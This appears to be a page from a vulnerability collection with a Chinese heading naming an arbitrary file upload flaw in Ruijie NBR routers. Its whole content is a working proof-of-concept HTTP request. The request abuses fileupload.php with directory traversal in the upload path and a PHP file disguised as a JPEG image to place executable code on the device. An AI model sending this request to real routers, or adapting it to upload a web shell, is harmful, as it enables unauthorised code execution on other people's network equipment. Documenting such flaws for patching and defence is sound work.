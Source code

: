 ## 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

```
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```
